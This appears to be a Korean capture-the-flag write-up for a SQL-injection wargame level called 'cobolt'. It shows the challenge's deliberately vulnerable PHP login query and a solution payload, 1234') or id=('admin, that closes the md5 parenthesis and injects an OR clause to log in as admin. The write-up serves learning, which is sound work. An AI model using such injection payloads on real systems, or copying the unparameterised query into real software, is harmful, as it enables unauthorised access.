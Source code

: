 # cobolt

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 받아온 pw를 md5함수에 넣어 비교한다.
- select된 id가 'admin'이어야 한다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234') or id=('admin


GET으로 받아온 pw값을 쿼리 안에서 괄호로 감싼다.<br>
&rarr; 동일하게 괄호를 닫아주고 문장을 자연스럽게 연결해주면 된다.


해당 값을 보내면, query 속 조건은 다음과 같다.


**select id from prob_cobolt where id='1234' and pw=md5('1234') or id=('admin')**


`or`을 기준으로 왼쪽 `id='1234' and pw=md5('1234')`이 거짓, 오른쪽 `id=('admin')`이 참이므로<br>
참인 조건에 의거 'admin'을 불러오게 된다.